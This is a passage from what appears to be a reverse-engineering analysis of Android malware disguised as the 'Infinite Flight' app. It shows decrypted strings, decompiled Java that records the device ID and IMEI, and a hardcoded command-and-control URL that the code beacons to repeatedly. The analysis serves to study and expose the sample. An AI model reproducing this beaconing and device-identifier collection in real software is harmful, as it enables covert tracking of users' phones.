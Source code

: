 I will not get into details of the algorithm here (see last section), so here are the decrypted strings:

> ```
>0: tall
>1: ei
>2: ins
>3: url
>4: im
>5: one
>6: inst
>7: time
>8: _per
>9: id
>10: _inst
>11: info
>12: ehv
> ```

And then, the code could be written as follows, according to what JD-GUI shows:

> ```java
>public void run(){
>	if (!this.q.w.contains("one_inst")){
>		SharedPreferences.Editor editor = this.q.w.edit();
>		editor.putInt("one_inst", 1);
>		editor.putString("url", this.q.getApplicationContext().getString(R.string.URL));
>		editor.putString("inst", "1");
>		editor.putLong("time_per_ehv", 100L);
>		//o.t(Context) returns the device ID 
>		editor.putString("id", this.q.getApplicationContext().getString(R.string.PREFIX_ID) + o.t(this.q.getApplicationContext()));
>		editor.putString("imei", o.t(this.q.getApplicationContext()));
>		editor.apply();
>	}
>	if (this.q.w.getString("inst", null) == "1") {
>		new v(this.q.getApplicationContext(), new ArrayList(), "install").execute(new String[] { this.q.w.getString("url", null) });
>	}
>	else{
>		new v(this.q.getApplicationContext(), new ArrayList(), "info").execute(new String[] { this.q.w.getString("url", null) });
>	}
>	Tb.q(this.q).postDelayed(this, bo.q);      
>}
> ``` 

knowing that `strings.xml` contains:

> ```xml
><string name="app_name">Infinite Flight</string>
><string name="hello_world">Hello world!</string>
><string name="action_settings">Settings</string>
><string name="PREFS_NAME">AppPrefs</string>
><string name="PREFIX_ID">0080</string>
><string name="URL">http://37.1.207.31/api/?id=7</string>
> ```
